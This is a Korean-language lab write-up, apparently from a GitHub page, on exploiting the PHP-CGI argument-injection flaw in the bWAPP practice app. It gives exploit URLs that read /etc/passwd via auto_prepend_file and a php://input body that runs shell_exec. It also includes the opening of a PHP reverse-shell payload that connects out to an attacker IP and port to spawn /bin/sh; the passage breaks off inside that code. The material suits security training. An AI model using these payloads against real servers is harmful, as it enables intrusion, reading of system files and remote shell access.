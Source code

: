### 1. auto_prepend_file=/etc/passwd 옵션

![image](https://user-images.githubusercontent.com/28076542/53460608-07f1f380-3a81-11e9-822c-3eec7a927378.png)

* URL :`https://192.168.190.143:8443/bWAPP/admin/?-dauto_prepend_file%3d/etc/passwd+-n`
* auto_prepend_file=/etc/passwd에서 `=`을 `%3d`로 바꿔준 이유는 URL 인코딩에서 `=`이 `%3d`이기 때문, `=`을 입력하면 동작 안 함

### 2. allow_url_include=1, auto_prepend_file=/etc/passwd 옵션, Body 조작

![image](https://user-images.githubusercontent.com/28076542/53461551-489f3c00-3a84-11e9-996d-acd59f5e6e91.png)

![image](https://user-images.githubusercontent.com/28076542/53461573-5a80df00-3a84-11e9-95a9-7e0f6d08bf29.png)

* URL: `https://192.168.190.143:8443/bWAPP/admin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`
* Body: `<?php $output = shell_exec('cat /etc/passwd'); echo "$output"; die;`
* URL에 접속 후 BurpSuite로 Body 부분 삽입하면 됨

### 3. PHP-CGI PHP Reverse Shell Shoveling(리버스 쉘 커넥션)

![image](https://user-images.githubusercontent.com/28076542/53466341-e569d580-3a94-11e9-9480-5598103498d4.png)

* URL: `https://192.168.190.143:8443/bWAPP/admin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`

### Body에 넣는 php 코드

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.190.155';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
        $pid = pcntl_fork();
        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }
        if ($pid) {
                exit(0);
        }
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }
        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
```